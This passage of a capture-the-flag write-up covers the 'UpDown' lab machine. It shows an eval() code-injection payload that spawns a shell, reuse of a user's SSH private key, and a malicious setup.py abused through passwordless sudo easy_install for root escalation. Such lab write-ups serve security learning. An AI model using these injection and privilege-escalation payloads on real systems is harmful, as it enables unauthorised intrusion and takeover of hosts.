 The `input()` function allows arbitrary Python via `eval()`:

```console
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:eval("__import__('os').system('/bin/sh')")

eval("__import__('os').system('/bin/sh')")
$
$ id
id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

This gives access to `/home/developer/.ssh/id_rsa` for a stable login shell.

## Privilege Escalation

```console
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

```python
developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

[easy_install](https://setuptools.pypa.io/en/latest/deprecated/easy_install.html) was deprecated by `pip`. It's trivially exploitable here. I create the following payload:

```python
developer@updown:~$ cat /tmp/x/setup.py
import os
from distutils.core import setup

os.system("/bin/sh")

setup(
    name='x',
    version='0.1',
    py_modules=[]
)
```
